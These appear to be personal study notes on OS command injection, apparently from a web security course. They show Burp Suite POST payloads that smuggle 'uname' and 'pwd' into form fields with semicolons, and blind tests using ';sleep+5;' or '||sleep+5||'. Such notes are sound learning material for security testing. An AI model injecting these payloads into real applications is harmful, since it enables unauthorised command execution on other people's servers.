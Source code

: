 # Section 8: OS Command Injection

## Discovering a Basic Command Injection Vulnerability

**Execute system commands on the target web server**
- Compromise the application & server
- Compromise the network and other resources

  e.g. in a POST request payload, in BURP suite:

  ```
  productId=3;uname&storeId=2
  ```

  ```
  productId=3&storeId=2;uname
  ```

returns:
```
73
Linux
```

  added semicolon because I can run this in the system:

  ```
  uname;pwd
  ```

---

## Discovering Blind Comand Injection Vulnerability

It's Blind because, there is no ouput of the command displayed. 

The **sleep** function can be used to verify if it's working

e.g. In a POST request paylaod

```
csrf=32059523058230&name=test^email=test%40test.com;sleep+5;&subject=test&message=adfsdf
```

also can replace semicolons with double bars (OR)

```
csrf=32059523058230&name=test^email=test%40test.com||sleep+5||&subject=test&message=adfsdf
```

---

